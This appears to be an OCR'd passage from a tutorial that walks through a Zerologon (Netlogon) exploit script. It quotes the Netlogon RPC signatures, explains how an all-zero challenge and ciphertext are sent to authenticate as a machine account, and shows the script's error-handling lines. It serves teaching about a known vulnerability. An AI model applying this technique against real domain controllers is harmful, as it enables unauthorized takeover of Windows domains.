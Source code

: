 The Primary Name being the DC Handle, the Computer Name being the Target Computer, and the Client Challenge being 16 bytes of "\x00".

And the client will receive back, which will be used in Figure 1, Step 2:

```py
NTSTATUS NetrServerReqChallenge(
    [out] PNETLOGON_CREDENTIAL ServerChallenge
);
```

Lines 8 sets up a try except (we'll see the rest of that in the next few lines), but in line 9 is where we actually attempt to exploit the Zero Logon vulnerability, this would be Figure 1, Step 3. This section requires a fair bit more information, per the Microsoft Documentation for NetrServerAuthenticate3, the following is required:

```py
NTSTATUS NetrServerAuthenticate3(
    [in, unique, string] LOGONSRV_HANDLE PrimaryName,
    [in, string] wchar_t* AccountName,
    [in] NETLOGON_SECURE_CHANNEL_TYPE SecureChannelType,
    [in, string] wchar_t* ComputerName,
    [in] PNETLOGON_CREDENTIAL ClientCredential,
    [in, out] ULONG * NegotiateFlags,
);
```

On line 9, we supply the the DC_Handle as the Primary Name, the Target Computer plus a $ as the Machine Account Name (Recall, Machine accounts do not have lockout policies), the Secure Channel Type as the Secure Channel Type previously established over RPC, the target_computer variable as the ComputerName, the Ciphertext (16 bytes of "\x00" attempting to Abuse Zero Logon, remember there's 1-in-256 chance that the Ciphertext will be the same as the plaintext), and lastly, our flags variable that mimics those of a Windows 10 client machine.

```py
NTSTATUS NetrServerAuthenticate3(
    [out] PNETLOGON_CREDENTIAL ServerCredential,
    [in, out] ULONG * NegotiateFlags,
    [out] ULONG * AccountRid
);
```

Additionally, we expect to receive two (possibly 3) things back from the Server upon (hopefully) successful exploitation of Zero Logon: The ServerCredential and AccountRid, only one of which we are going to use.

**Line 44 - 54**

```py
assert server_auth['ErrorCode'] == 0
return rpc_con

except nrpc.DCERPCSessionError as ex:

if ex.get_error_code() == 0xc0000022:
    return None
else:
    fail(f'Unexpected error code from DC: {ex.get_error_code()}.')

except BaseException as ex:
fail(f'Unexpected error: {ex}.')
```
